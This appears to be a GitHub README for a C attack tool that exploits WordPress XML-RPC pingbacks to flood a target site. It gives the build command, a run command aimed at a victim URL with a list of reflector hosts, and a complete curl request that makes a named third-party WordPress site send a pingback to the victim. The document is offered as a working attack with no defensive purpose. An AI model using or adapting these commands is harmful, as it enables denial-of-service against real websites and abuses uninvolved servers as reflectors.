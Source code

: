 # XML-RPC attack script

Please note, this kind of attack can only be performed on WordPress 2.1.1. WP 4.3 seems immune to this.

A complete refactor and different take on a traditional attack script for exploiting XML-RPC pingback(s) on WordPress. I've completely revamped the way that this is traditionally done, the old code/base used for attack scripts was horrible, contained memory leaks and was just overall disgusting. I'll release a guide on how to adapt this code for other attack vectors.

How to build?
```
gcc *.c -D DEBUG -pthread -o xml
```

How to Run?
'''
./xml -w http://victim/html -d 1 -t 1 -f host.txt
'''

Also this attack can be invoked through cURL:
'''
curl "http://www.selftanningguide.com/xmlrpc.php" --header "Content-Type: text/xml" --data "<?xml version=\"1.0\"?><methodCall><methodName>pingback.ping</methodName><params><param><value><string>http://victim/html</string></value></param><param><value><string>http://reflector/?p=1</string></value></param></params></methodCall>"
'''
